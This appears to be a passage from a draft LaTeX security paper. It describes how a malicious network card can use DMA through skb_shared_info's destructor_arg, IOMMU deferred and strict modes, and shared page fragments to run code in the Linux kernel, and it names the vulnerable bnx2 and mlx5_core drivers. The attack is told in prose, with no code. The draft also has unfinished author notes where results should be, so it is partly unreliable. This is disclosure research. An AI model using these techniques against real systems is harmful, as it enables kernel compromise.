    
\includegraphics[width=\linewidth]{figs/ubuf.pdf}
    \caption{Using \shinfo{} to execute arbitrary code in kernel context.}
    \label{fig:sh_info}
\end{figure}

Struct \skb{} is a common data structure, used by the Linux network stack, to hold information representing a network packet. Struct \skb{} holds the metadata of a network packet (e.g., its size, associated socket). One of these fields is a pointer to a data buffer. The data is allocated separately, and thus, does not share a page with its \skb{} (Fig. \ref{fig:sh_info}). 

This separation means that \skb{} is \emph{never} (intentionally) mapped to the device. Indeed, it is a common belief, pointed out in literature \cite{thunder}, that the Linux network stack is not susceptible to DMA attacks via the \texttt{data} pointer. In this work, we show that this belief is misplaced.

The Linux network stack supports packet cloning by merely copying \skb{} metadata. This includes the \texttt{data} pointer. That is, the resulting \skb{} and the original one share the data buffer \cite{drivers2005linux}. Note that the data buffer of the \skb{} is the \emph{linear} part of the payload but \skb{} also supports \emph{non-linear} buffers, ferrying payloads in page fragments (i.e., buffers described by their \page{}, length and offset). 

To support these non-linear buffers, the \shinfo{} metadata structure is used.
Struct \shinfo{}, in contrast to \skb{}, is always allocated as part of the data buffer. Therefore it is always mapped to the device. \shinfo is unwittingly mapped with the permissions of the packet, i.e., WRITE for RX packets, READ for TX packets, and in some cases, such as XDP/XSK \cite{xdp} with BIDIRECTIONAL.

Consequentially, \shinfo{} is the potential \oportunity{} the malicious device has been looking for. The sub page vulnerability created by \shinfo{}, represents a type (b) vulnerability (Fig. \ref{fig:colocation} (b)), as this is innate to Linux networking rather than a driver security bug. 

Fig. \ref{fig:sh_info} depicts how a malicious device can mount an attack using \shinfo{} in four steps:
\begin{enumerate}[label=(\alph*)]
    \item An RX \skb{} and its data buffer are allocated. The data buffer is mapped for the NIC with WRITE access (the WRITE access is to the whole 4~KB page). 
    \item \texttt{destructor\_arg} field in \shinfo{} is overwritten to point within the mapped page. Now, the \texttt{destructor\_arg} is pointing to struct \uarg{} which is created by the NIC.
    \item \uarg{} has a callback pointer that is now pointing to the malicious code that resides on the same page. In the case of NX-bit, it is a poisoned ROP stack.
    \item when the \skb{} is released, the callback is invoked.
\end{enumerate}
To expand this scenario into a complete attack, the attacker must complete the MMO trifecta. That is, both \means{} and \oportunity{} are required. \textcolor{olive}{In the next subsection, we demonstrate how an attacker can leverage the standard OS behavior to find the missing attributes.}

\subsection{Hacking~\oportunity{}}\label{sec:shinfo}

\begin{figure}[t]
    \centering
    
\includegraphics[width=\linewidth]{figs/road_to_op.pdf}
    \caption{Different ways to obtain \oportunity.}
    \label{fig:road_to_op}
\end{figure}

As depicted in Fig. \ref{fig:road_to_op}, we now details different ways ((a), (b) and (c)) in which a malicious device obtains \oportunity{}.

\begin{enumerate}[label=(\alph*)]

\item Presumably, a correct use of the DMA API should thwart the attack outlined in the previous section (Fig. \ref{fig:sh_info}). Namely, unmapping the buffer and only then initializing \shinfo{} should allow the CPU to undo any malicious changes the NIC may have perpetrated. 
As it turns out, prevalent device drivers (Appendix \ref{apndx:wrong_order}) first create an \skb{} and only then unmap the buffer. This order of execution allows the \emph{device} to undo legitimate changes to \shinfo{} by the CPU. 

\item Nevertheless, even when the order is correct, i.e., the unmapping of the buffer occurs before the creation of the \skb{}, still \shinfo{} is not safe from later modifications. As the default IOMMU mode in Linux is \emph{deferred} protection (Sec. \ref{sec:deferred}), the umap order is made irrelevant. That is, even though the unmap function is invoked in the correct order, the device can still corrupt \shinfo{} due to the IOTLB. Namely, the device can control which \iova{} are cached in the IOTLB by accessing only the addresses it needs cached. 

\item In response, a security-conscious admin may change the default setting to \emph{strict} mode, where the IOTLB is flushed on every unmap. However, this both severely degrades networking performance \cite{MMT16,MSMT18}, and does not alleviate the security threats on the system. Presumably, with \emph{strict} mode enabled, the \iova{} the NIC used to access that \shinfo{} is no longer valid, which initially sounds promising. The problem is that the device, in many cases, will still have legitimate WRITE access to the physical page of the \shinfo. The vulnerability stems from the way \data{} is allocated. An RX \skb{} is almost exclusively allocated via an API (e.g., \texttt{napi\_alloc\_skb} or \texttt{netdev\_alloc\_skb}) that creates a type (c) sub page vulnerability (Fig. \ref{fig:colocation} (c)). The device can use the \iova{} of a co-located buffer to access the \shinfo{} it requires. Particularly, the buffers of the driver RX ring are allocated sequentially, resulting in pairs of successive RX descriptors that map the same page. Obviously, this holds as long as the buffer sizes are smaller than 4 KB. This is a reasonable assumption since the default MTU size is 1500~B. These allocation functions, use a \texttt{page\_frag} mechanism to allocate the \data{} buffers, which in turn contain \shinfo. The \texttt{page\_frag} is an efficient method for allocating small buffers, often used by the Linux network stack. A \texttt{page\_frag} is initialized by allocating a contiguous memory region (usually 32 KB), setting a \textit{va} pointer to the beginning of the region and \texttt{offset} to the end. An allocation request for \texttt{B} bytes subtracts \texttt{B} bytes from the \texttt{offset} pointer and returns the new value of \texttt{offset}\footnote{In multicore environments, the \texttt{page\_frag} uses a different buffer for each CPU and each CPU has a single RX ring. As a result, each RX ring is served by its own (per-CPU) contiguous buffer.} (Fig. \ref{fig:page_frags}). This mechanism for memory allocation is efficient, but results in consecutive \data{} buffers sharing memory pages. Due to this type (c) sub page vulnerability, the NIC does not require the invalidated \iova{} to modify the \shinfo; instead, it can use the \iova{} for the next data buffer. Note that the lower 12 bits (the offset on the page) of the \iova{} are identical to the corresponding \kva{} bits. As illustrated in Fig. \ref{fig:sh_info}, the \oportunity{} obtained is via the next buffer (i.e., the striped area at the end of the page).
\end{enumerate}

\textcolor{olive}{
The drivers on our setup, namely bnx2 and mlx5\_core are both vulnerable. The bnx2 driver uses the correct unmapping order, and uses kmalloc to allocate its RX buffers, instead of the dedicated API functions (e.g., \texttt{napi\_alloc\_skb} or \texttt{netdev\_alloc\_skb}), but due to \emph{deferred} mode, \shinfo{} is still vulnerable to modifications.
The mlx5\_core driver, avoids unmapping the RX buffers altogether, in kernel 5.0, the driver uses a \texttt{pool\_page} mechanism\cite{page_pool} and in kernel 4.15, the driver uses an ad-hoc mechanism, to achieve the same goal as \texttt{pool\_page}. These, design choices, in both cases leave \shinfo{} vulnerable, both in \emph{deferred} and \emph{strict} modes.  
The discrepancy in driver behavior, is due to the fact that bnx2 is a driver for a 1 GBE NIC; where as, mlx5\_core is a 50 GBE\footnote{\textcolor{red}{Ours is an x8 model rather than the x16, that can reach 100GB/s.}}, and uses more efficient APIs to maximise performance.}



\smallskip
Interestingly, as it stands today, it seems that the only way to secure \shinfo{} is to never map it. 


\smallskip
\textcolor{olive}{From this point on, we assume that the attacker has unimpeded access to \oportunity{}. In the next subsections, we demonstrate various compound DMA attacks where an attacker can exploit OS behaviour to gain \means{} and \motivation{} completing the trifecta.}

\subsection{Ring Flod}\label{sec:ringflod}

A malicious device can generate a poisoned ROP stack on each RX buffer and gain \motivation{}. At this point, the device still cannot execute a successful code injection attack; the device is lacking \means{}. 

Due to the IOMMU, the device has all the \iova{} for the RX buffers, but not the \kva{}. In this attack we take advantage of the fact that the boot process is \emph{deterministic}. Each reboot, the same set of commands is executed in the same order initiating the same kernel modules and starting the same processes. While the actual pages each module gets vary in a multi-core machine due to timing issues, the drift is not expected to be too large.

We evaluate this assumption also on a DELL 730 server equipped with a ConnectX-4 NIC, running 256 reboots on Ubuntu 18.04 with kernel 5.0. 
\footnote{\textcolor{red}{Please generate table of RingFlod Results}}

We find that many of the PFNs repeat in more than 50\% percent of reboots. \footnote{\textcolor{magenta}{Need to see If we can improve this number}} Thus an adversary with knowledge about the physical setup can guess with a high probability a valid \kva{} for one of the RX pages. Now with a valid \kva{} for a \mabaf{},  i.e., \means{} and \motivation{}, the trifecta is complete and the attacker is able to execute the attack as shown in Fig. \ref{fig:sh_info} (in this case the \texttt{destructor\_arg} will most likely indicate a different page, but other that the attack scenario is unchanged).

The success probability of this attack depends on the driver version and NIC capabilities. For example ,some NICs have a HW LRO capability; where a NIC can aggregate multiple TCP packets into a single TCP packet, larger than MTU \cite{mlx5_lro}(e.g., bnx2x, mlx5\_core). On drivers configured with these options each RX buffer is 64KB regardless of MTU. As a result, these drivers have a much larger memory footprint\cite{MSMT18} and are much easier to target with a RingFlod attack.

\begin{figure*}[t]
    \centering
